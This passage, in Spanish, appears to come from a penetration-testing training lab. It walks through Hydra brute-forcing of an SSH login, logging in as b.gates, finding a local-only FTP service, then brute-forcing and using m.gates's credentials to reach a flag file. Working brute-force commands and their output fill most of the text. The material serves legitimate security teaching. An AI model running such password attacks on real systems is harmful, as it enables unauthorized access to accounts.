 El comando utilizado para atacar un servicio de login es bastante sencillo. Simplemente tenemos que proporcionar las wordlists de nombre de usuario/contraseña y agregar `service://SERVER_IP:PORT` al final. Como de costumbre, añadiremos los flags `-u -f`. Finalmente, cuando ejecutemos el comando por primera vez, `hydra` sugerirá que añadamos el flag `-t 4` para un número máximo de intentos paralelos, ya que muchos `SSH` limitan el número de conexiones paralelas y descartan otras conexiones, lo que resulta en muchos de nuestros intentos siendo descartados. Nuestro comando final debería ser el siguiente:

```r
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 157116 login tries (l:12/p:13093), ~39279 tries per task
[DATA] attacking ssh://178.35.49.134:22/
[STATUS] 77.00 tries/min, 77 tries in 00:01h, 157039 to do in 33:60h, 4 active
[PORT][ssh] host: 178.35.49.134   login: b.gates   password: ...SNIP...
[STATUS] attack finished for 178.35.49.134 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

Vemos que toma algún tiempo terminar, pero eventualmente, obtenemos un par funcional y identificamos al usuario `b.gates`. Ahora, podemos intentar iniciar sesión por SSH utilizando las credenciales que obtuvimos:

```r
ssh b.gates@178.35.49.134 -p 22

b.gates@SERVER_IP's password: ********

b.gates@bruteforcing:~$ whoami
b.gates
```

Como podemos ver, podemos iniciar sesión por `SSH` y obtener un shell en el servidor.

---

## FTP Brute Forcing

Una vez que estamos dentro, podemos verificar qué otros usuarios están en el sistema:

```r
b.gates@bruteforcing:~$ ls /home

b.gates  m.gates
```

Notamos otro usuario, `m.gates`. También notamos en nuestro `recon` local que el puerto `21` está abierto localmente, lo que indica que debe haber un `FTP` disponible:

```r
b.gates@bruteforcing:~$ netstat -antp | grep -i list

(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 127.0.0.1:21            0.0.0.0:*               LISTEN      - 
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -                  
```

A continuación, podemos intentar realizar un brute force en el inicio de sesión `FTP` para el usuario `m.gates`.

Nota 1: A veces, los administradores prueban sus medidas y políticas de seguridad con diferentes herramientas. En este caso, el administrador de este servidor web mantuvo "hydra" instalado. Podemos beneficiarnos de esto y usarlo contra el sistema local atacando el servicio FTP localmente o remotamente.

Nota 2: "rockyou-10.txt" se puede encontrar en "/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou-10.txt", que contiene un total de 92 contraseñas. Esta es una versión más corta de "rockyou.txt" que incluye 14,344,391 contraseñas.

Así que, de manera similar a cómo atacamos el servicio `SSH`, podemos realizar un ataque similar en `FTP`:

```r
b.gates@bruteforcing:~$ hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 92 login tries (l:1/p:92), ~6 tries per task
[DATA] attacking ftp://127.0.0.1:21/

[21][ftp] host: 127.0.0.1   login: m.gates   password: <...SNIP...>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

Ahora podemos intentar conectarnos por `FTP` como ese usuario, o incluso cambiar a ese usuario. Vamos a intentar ambas cosas:

```r
b.gates@bruteforcing:~$ ftp 127.0.0.1

Connected to 127.0.0.1.
220 (vsFTPd 3.0.3)
Name (127.0.0.1:b.gates): m.gates

331 Please specify the password.
Password: 

230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir

200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-------    1 1001     1001           33 Sep 11 00:06 flag.txt
226 Directory send OK.
```

Y para cambiar a ese usuario:

```r
b.gates@bruteforcing:~$ su - m.gates

Password: *********
m.gates@bruteforcing:~$
```

```r
m.gates@bruteforcing:~$ whoami

m.gates
```